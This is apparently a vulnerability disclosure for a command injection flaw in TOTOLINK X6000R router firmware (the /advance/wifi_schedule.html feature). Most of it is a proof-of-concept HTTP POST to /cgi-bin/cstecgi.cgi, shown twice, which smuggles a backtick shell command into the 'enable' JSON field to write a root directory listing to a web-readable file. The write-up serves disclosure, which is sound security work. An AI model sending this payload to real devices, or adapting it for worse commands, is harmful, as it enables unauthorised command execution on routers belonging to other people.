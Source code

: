 # Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/wifi_schedule.html".

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/f34fc7dd-7a08-4680-80d5-d025235197ca)

Capture the packet and see the enable parameter, and do a blind test directly:
![image](https://github.com/user-attachments/assets/29f3a1dd-c801-4918-8303-e4e62d1929a2)

```HTTP
POST /cgi-bin/cstecgi.cgi?token=B5904DB48F93AAA0 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 106
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/wifi_schedule.html?token=B5904DB48F93AAA0
Priority: u=1

{"wifiIdx":"0","enable":"`ls / >/web/poc_wifischedule.txt`","isGuest":"0","topicurl":"setWiFiScheduleCfg"}
```
![image](https://github.com/user-attachments/assets/0e8790ca-e0d9-44d1-a671-9687a92d29a9)

![image](https://github.com/user-attachments/assets/7998b9ff-0cf3-4021-97c3-729992bad554)


# PoC
Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=B5904DB48F93AAA0 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 106
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/wifi_schedule.html?token=B5904DB48F93AAA0
Priority: u=1

{"wifiIdx":"0","enable":"`ls / >/web/poc_wifischedule.txt`","isGuest":"0","topicurl":"setWiFiScheduleCfg"}
```
![image](https://github.com/user-attachments/assets/0e8790ca-e0d9-44d1-a671-9687a92d29a9)

![image](https://github.com/user-attachments/assets/7998b9ff-0cf3-4021-97c3-729992bad554)

